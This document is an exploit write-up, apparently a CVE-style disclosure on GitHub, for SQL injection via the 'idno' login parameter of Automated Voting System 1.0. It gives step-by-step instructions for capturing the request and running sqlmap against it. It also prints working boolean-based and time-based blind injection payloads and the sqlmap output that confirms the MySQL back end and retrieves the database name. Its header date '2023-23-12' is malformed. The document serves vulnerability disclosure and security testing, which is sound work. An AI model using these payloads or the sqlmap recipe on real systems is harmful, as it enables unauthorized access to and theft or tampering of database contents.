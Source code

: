 # Automated_Voting_System-SQL_Injection-2
+ Exploit Title: Automated_Voting_System-SQL_Injection-2
+ Date: 2023-23-12
+ Exploit Author: Hamdi Sevben
+ Vendor Homepage: https://code-projects.org/automated-voting-system-in-php-with-source-code/
+ Software Link: https://download-media.code-projects.org/2020/02/AUTOMATED_VOTING_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ Version: 1.0
+ Tested on: Kali Linux + PHP 8.2.12, Apache 2.4.58
+ CVE: CVE-

## References: 

## Description:
Automated Voting System 1.0 allows SQL Injection via parameter 'idno' in "/automated%20voting/".
Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the voter panel: "http://localhost/automated%20voting/"
+ Fill the voter id and password then click 'Login' button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Use sqlmap to exploit.
+ In sqlmap, use 'idno' parameter to dump the database. 
```
sqlmap -r r.txt -p idno --risk 3 --level 5 --threads 1 --random-agent tamper=between, randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: MULTIPART idno ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: -----------------------------330798109512083143982793838470
Content-Disposition: form-data; name="idno"

-4883' OR 7870=7870-- eCXU
-----------------------------330798109512083143982793838470
Content-Disposition: form-data; name="password"

pass
-----------------------------330798109512083143982793838470
Content-Disposition: form-data; name="login"


-----------------------------330798109512083143982793838470--

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: -----------------------------330798109512083143982793838470
Content-Disposition: form-data; name="idno"

11111' AND (SELECT 7894 FROM (SELECT(SLEEP(5)))TcOW)-- MvbQ
-----------------------------330798109512083143982793838470
Content-Disposition: form-data; name="password"

pass
-----------------------------330798109512083143982793838470
Content-Disposition: form-data; name="login"


-----------------------------330798109512083143982793838470--
---
[19:31:16] [INFO] testing MySQL
got a 302 redirect to 'http://localhost/automated%20voting/vote.php'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [y/N] N
[19:31:17] [INFO] confirming MySQL
[19:31:18] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[19:31:18] [INFO] fetching current database
[19:31:18] [INFO] resumed: voting
current database: 'voting'
```

+ current database: `voting`
![02](https://github.com/h4md153v63n/CVEs/assets/5091265/abe5fcf0-759b-470b-866c-6a546f8fb824)

